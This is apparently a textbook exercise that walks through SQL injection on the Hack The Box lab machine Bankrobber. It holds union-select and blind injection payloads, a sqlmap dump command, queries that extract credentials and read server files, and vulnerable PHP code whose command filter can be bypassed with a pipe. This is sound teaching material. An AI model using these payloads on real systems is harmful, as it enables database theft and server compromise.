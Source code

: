 # Exercise: Using SQL injection on the Bankrobber box

In order to try out SQL injection, we will go back to the Hack The Box machine, Bankrobber. The XSS exploitation will gae us credentials for the admin user and with those, we can access the administration functionality of the site where you discover a user's search function that is SQL injectable \(Figure 3-1\).



![Search functionality available after logging in as admin on Bankrobber](../.gitbook/assets/2%20%286%29.png)

You know that it is SQL injectable through the following process: Simple numbers like 1 and 2 in the search query return users with those numbers as ids. Putting a single quote after the number results in an error that is returned saying that “There is a problem with your SQL syntax”. Adding the MySQL comment text 1'-- - into the search field then returns the user again.

Catching the entire search request in Burp \(turn on the Burp proxy option in FoxyProxy and click search to intercept the request in the Proxy tab, then send the request to the Repeater tab in Burp using CTL-R\) allows us to play with the SQL and determine that it is “union select” injectable. To determine the number of columns that the original query is returning, we can use the following injection and sending it via Burp repeater:

```sql
term=1'+order+by+1--+-
```

This returns one user from the request. Incrementing the order by clause to 4 returns an error “There is a problem with your SQL syntax” telling us that the number of columns in the original query was 3. This means you can now carry out a union select with the query string:

```sql
term=1'+union+select+'Field1','Field2',3--+-
```

This returns the output

```markup
HTTP/1.1 200 OK
Date: Thu, 01 Oct 2020 04:53:15 GMT
Server: Apache/2.4.39 (Win64) OpenSSL/1.1.1b PHP/7.3.4
X-Powered-By: PHP/7.3.4
Content-Length: 180
Connection: close
Content-Type: text/html; charset=UTF-8
<table width='90%'><tr><th>ID</th><th>User</th></tr>
 <tr>
 <td>1</td>
 <td>admin</td>
 </tr>
 <tr>
 <td>Field1</td>
 <td>Field2</td>
 </tr>
 </table>
```

Knowing that this is a union select injectable field and that the database is MySQL, you can dump the default database using the sqlmap command:

`sqlmap -r search.req --batch --dbms MySQL --technique U -p term --dump`

Without the parameters –dbms, --technique and -p sqlmap will determine these itself, but it is faster to provide them if you already know the answer.

sqlmap can carry out blind attacks by using timing techniques. These work by introducing a delay in the response if the answer to a query is true. An example of this given by OWASP for MySQL uses the BENCHMARK\(50000000,ENCODE\('MSG', 'by 5 seconds'\)\) statement to introduce an approximately 5 second pause. So the SQL statement

```sql
1' UNION SELECT IF(SUBSTRING(user_password,1,1) = CHAR(50),
BENCHMARK(5000000,ENCODE('MSG','by 5 seconds')),null) 
FROM users WHERE user_id = 1
```

Will test if the first character in the password is ‘2’ \(assuming the password is in clear text\).

 Whilst sqlmap can save time in obtaining information from SQL injection, it is always useful to know how to get the information manually. For example, in Bankrobber, you can list the databases in MariaDB with the command:

```sql
term=1'+union+select+'Field1',(SELECT group_concat(schema_name) 
FROM information_schema.schemata),3--+-
```

The response will include the databases

`bankrobber,information_schema,mysql,performance_schema,phpmyadmin,test`

The site, PayloadsAllTheThings has a SQL Injection Cheat Sheet that lists other commands for exploring databases.

We can list the tables in the database bankrobber with the following query:

```sql
term=1' union select 1,table_name,3 from INFORMATION_SCHEMA.TABLES 
where table_schema=database()-- -
```

This returns the tables: admin, balance, hold and users. We can list the columns in the users table using the command:

```sql
term=1' union select 1,group_concat(0x7c,column_name,0x7c),3 
from INFORMATION_SCHEMA.COLUMNS where table_name='users'-- -
```

This returns the column names:

`|id|,|username|,|password|,|USER|,|CURRENT_CONNECTIONS|,|TOTAL_CONNECTIONS|`

Finally, we could list the usernames and passwords for the users:

```sql
term=1' union select 1,group_concat(username,0x3a,password),3 from users-- -
```

Which returns:

`admin:Hopelessromantic,gio:gio`

Nothing particularly useful. One function that you can use in SQL is the LOAD\_FILE function which will allow us to include a local file into the response. We can try it with a well known Windows file c:\Windows\win.ini

```sql
term=1' union select 1,LOAD_FILE('c:\\Windows\\win.ini'),3-- -
```

And sure enough, this returns the contents of the file:

```sql
; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
```

If we enumerate the web directories with Gobuster we find for the root directory:

```bash
┌─[rin@parrot]─[~/boxes/Bankrobber]
└──╼ $gobuster dir -t 50 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt -u http://bankrobber.htb
<SNIP>
/index.php (Status: 302)
/img (Status: 301)
/login.php (Status: 302)
/register.php (Status: 200)
/user (Status: 301)
/admin (Status: 301)
/link.php (Status: 200)
/css (Status: 301)
/Index.php (Status: 302)
/Login.php (Status: 302)
/js (Status: 301)
/notes.txt (Status: 200)
/logout.php (Status: 302)
/licenses (Status: 403)
```

The file of particular interest is notes.txt which when we look at says:

```text
- Move all files from the default Xampp folder: TODO
- Encode comments for every IP address except localhost: Done
- Take a break..
```

The key bit of information is that the Xampp folder is in the default location. XAMPP is a product that packages up Apache, MariaDB, PHP and Perl to run web applications. MariaDB is compatible with MySQL and so is largely indistinguishable for our purposes.

Going back to the home page, there was another function called a We also know that the function called a Backdoorchecker that said it would allow the dir command but when you try it, you get an error message:

It's only allowed to access this function from localhost \(::1\).

This is due to the recent hack attempts on our server.

It would be worth looking at the code for this file which we can do using SQL injection

```sql
term=1' union select 1,LOAD_FILE('c:\\xampp\\htdocs\\admin\\backdoorchecker.php'),3-- -
```

This returns the code for backdoorchecker.php

```php
<?php
include('../link.php');
include('auth.php');
$username = base64_decode(urldecode($_COOKIE['username']));
$password = base64_decode(urldecode($_COOKIE['password']));
$bad = array('$(','&');
$good = "ls";
if(strtolower(substr(PHP_OS,0,3)) == "win"){
 $good = "dir";
}
if($username == "admin" && $password == "Hopelessromantic"){
if(isset($_POST['cmd'])){
 // FILTER ESCAPE CHARS
  foreach($bad as $char){
    if(strpos($_POST['cmd'],$char) !== false){
      die("You're not allowed to do that.");
    }
  }
 // CHECK IF THE FIRST 2 CHARS ARE LS
 if(substr($_POST['cmd'], 0,strlen($good)) != $good){
   die("It's only allowed to use the $good command");
 }
 if($_SERVER['REMOTE_ADDR'] == "::1"){
   system($_POST['cmd']);
 } else{
   echo "It's only allowed to access this function from localhost (::1).<br> This is due to the recent hack attempts on our server.";
 }
 }
} else{
 echo "You are not allowed to use this function!";
}
?>
```

The key things about this code are that it checks that cookie has username with a value of "admin" and password with a value of "Hopelessromantic" u. It then checks that the command does not include '&' which would allow us to run a second command after the 'dir' command v. It checks that the command starts with 'dir' so that we can't substitute other commands instead w. It checks if the request came from the local machine x. Finally, it executes the command y. The flaw here is is that although it is checking for bad characters that could manipulate the command and run other arbitrary commands, it still allows us to use the '\|' character which works in the same way as the '&' after a command.

We can now run a command but we still need to do this using server-side request forgery using the XSS vulnerability as we did earlier in the chapter.

